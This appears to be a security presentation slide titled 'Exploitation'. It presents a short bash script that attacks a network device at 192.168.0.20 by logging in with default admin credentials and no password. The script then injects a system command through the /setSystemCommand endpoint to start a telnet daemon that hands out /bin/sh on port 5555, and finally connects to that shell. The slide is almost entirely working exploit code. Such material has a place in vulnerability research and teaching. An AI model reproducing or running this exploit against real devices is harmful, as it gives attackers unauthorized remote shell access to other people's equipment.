

# Exploitation
My Script:

#!/bin/bash

echo "sending cURL request“

curl -X POST \
http://192.168.0.20/setSystemCommand \
-H 'Authorization: Basic YWRtaW46' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d 'ReplySuccessPage=docmd.htm' \
-d 'ReplyErrorPage=docmd.htm' \
-d 'SystemCommand=telnetd -p 5555 -l/bin/sh' \
-d 'ConfigSystemCommand=Save' &>/dev/null

echo "Request successful, connecting to telnet...“

telnet 192.168.0.20 5555